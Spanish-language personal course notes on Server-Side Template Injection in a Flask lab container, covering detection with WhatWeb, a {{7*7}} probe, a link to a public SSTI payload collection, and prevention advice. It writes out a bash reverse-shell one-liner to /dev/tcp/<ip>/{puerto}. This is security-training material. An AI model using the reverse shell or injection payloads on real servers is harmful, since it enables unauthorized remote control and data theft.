 ## Mis Apuntes: 

En esta clase comenzaremos con el siguiente ejemplo: 
desplegamos el siguiente contenedor con el siguiente comando: 
```
docker run -p 8089:8089 -d filipkarc/ssti-flask-hacking-playground
```
este contenedor tiene una pagina web la cual esta montada en flask, flask es un micro-framework que esta hecho en Python, hace que sea más fácil el hacer desarrollo de aplicaciones webs.
![[Pasted image 20240305182750.png]]
si apretamos log in, veremos la siguiente pestaña: 
![[Pasted image 20240305182927.png]]
si ocupamos whatweb para ver que tiene el servidor por detrás:
![[Pasted image 20240305183650.png]]
siempre que haya una pagina web donde este corriendo python o flask, siempre hay que pensar en un posible ssti
Entonces si tengo el control del input de la pagina y esta corriendo el servicio con flask o python, se puede poner a prueba la pagina de la siguiente forma: 
```
http://localhost:8089/?user={{7*7}}
```
![[Pasted image 20240305184116.png]]
para ver que payloads son importantes para este tipo de vulnerabilidades hay que entrar en este github:
https://github.com/swisskyrepo/PayloadsAllTheThings

para ser más especifico es este el link que ocuparemos:https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection

ahora si queremos hacer lectura de alguno de los archivos internos de la maquina podemos ocupar los siguientes payloads: 
![[Pasted image 20240306002722.png]]
ahora podemos entender que es lo que hacen: 
![[Pasted image 20240306002952.png]]
también hay un payload para poder escribir comandos de la terminal: 
![[Pasted image 20240306003743.png]]
![[Pasted image 20240306003806.png]]
es decir que podemos ocupar el one liner para poder tomar control de la maquina: 
```
bash -c "bash -i >& /dev/tcp/<ip>/{puerto} 0>&1"
```



-----------
## Datos de la clase: 

El **Server-Side Template Injection** (**SSTI**) es una vulnerabilidad de seguridad en la que un atacante puede inyectar código malicioso en una **plantilla** de servidor.

Las plantillas de servidor son archivos que contienen código que se utiliza para generar **contenido dinámico** en una aplicación web. Los atacantes pueden aprovechar una vulnerabilidad de SSTI para inyectar código malicioso en una plantilla de servidor, lo que les permite ejecutar comandos en el servidor y obtener acceso no autorizado tanto a la aplicación web como a posibles datos sensibles.

Por ejemplo, imagina que una aplicación web utiliza plantillas de servidor para generar correos electrónicos personalizados. Un atacante podría aprovechar una vulnerabilidad de **SSTI** para inyectar código malicioso en la plantilla de correo electrónico, lo que permitiría al atacante ejecutar comandos en el servidor y obtener acceso no autorizado a los datos sensibles de la aplicación web.

En un caso práctico, los atacantes pueden detectar si una aplicación Flask está en uso, por ejemplo, utilizando herramientas como **WhatWeb**. Si un atacante detecta que una aplicación **Flask** está en uso, puede intentar explotar una vulnerabilidad de **SSTI**, ya que Flask utiliza el motor de plantillas **Jinja2**, que es vulnerable a este tipo de ataque.

Para los atacantes, detectar una aplicación Flask o Python puede ser un primer paso en el proceso de intentar explotar una vulnerabilidad de SSTI. Sin embargo, los atacantes también pueden intentar identificar vulnerabilidades de SSTI en otras aplicaciones web que utilicen diferentes frameworks de plantillas, como Django, Ruby on Rails, entre otros.

Para prevenir los ataques de SSTI, los desarrolladores de aplicaciones web deben validar y filtrar adecuadamente la entrada del usuario y utilizar herramientas y frameworks de plantillas seguros que implementen medidas de seguridad para prevenir la inyección de código malicioso.
